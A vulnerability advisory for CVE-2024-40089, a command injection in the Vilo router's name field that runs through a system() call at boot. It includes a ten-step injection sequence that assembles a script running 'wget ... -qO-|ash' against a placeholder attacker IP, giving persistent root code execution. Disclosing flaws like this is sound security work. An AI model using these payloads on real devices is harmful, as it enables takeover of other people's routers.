

# [CVE-2024-40089](https://www.cve.org/CVERecord?id=CVE-2024-40089): Blind Authenticated Command Injection in Vilo Name
* **CVSS Score** - 9.1, Critical ([CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H))
* **Overview** - The "Vilo Name" is a field that can be changed in the app, and ends up changing the hostname of the main Vilo router. The hostname ends up being piped into the middle of a `udhcpc` command ran through C's `system()` function. Therefore, setting the Vilo name to something like `; touch /tmp/hacked;` and restarting the router will cause the `touch /tmp/hacked` command to be run on startup. It's important to note that the command injection does have a limit of 32 characters, but it's easy to get past this roadblock. It's also important to note that if the exploiter has physical access to the device, they can connect through the hardware's UART pins and see the output for the commands during bootup, making the command injection not blind.
* **Description**
    * When the router is rebooted, one of the processes ran on startup is `/bin/sysconf`. The `sysconf` binary will run the `system("udhcpc -i %s -p %s -s %s -h %s -a 5 &")` command, and the name of the router is put in the last `%s` format string (right before `-a 5 &`). When the Vilo name is changed to something like `; whoami;`, the `system()` call ends up being `'udhcpc ...; whoami; ...'` and our code is executed.
* **Steps to Reproduce**
    * Due to the 32 character injection limit, it's hard to establish a shell or run longer commands. To get past that, we exploited the command injection multiple times and wrote to a file, then executed that file. Each of the commands are listed below.
    ```bash
    ;echo '#!/bin/sh' > /hualai/b;
    ;echo -n 'wget ht'>>/hualai/b;
    ;echo -n 'tp://11'>>/hualai/b;
    ;echo -n '1.222.3'>>/hualai/b;
    ;echo -n '.444:55'>>/hualai/b;
    ;echo -n '55 -qO-'>>/hualai/b;
    ;echo '|ash'>>/hualai/b;
    ;cat /hualai/b;
    ;chmod +x /hualai/b;
    ;sleep 20 &&(/hualai/b)&
    ```
    * *(see image below)* To exploit each command injection click on the edit button for the Vilo router in the Vilo app. For the Vilo name, enter the next command.
    * After exploiting it 10 times for each of the 10 commands, it should create a file at `/hualai/b` with the contents below:
    ```bash
    #!/bin/sh
    wget http://111.222.3.444:5555 -qO-|ash
    ```
    * It then makes that file executable and runs it. The last command is `;sleep 20 &&(/hualai/b)&` because the network isn't available to the operating system when the command is ran, so it waits 20 seconds and then runs the script file.
    * At this point, every time the router is rebooted it will reach out to a public webserver running on port 5555 with the IP `111.222.3.444`, download the contents, and run those contents as shell commands. 
* **Impact** - Anyone with app access to a router has arbitrary code execution as root on the underlying operating system.

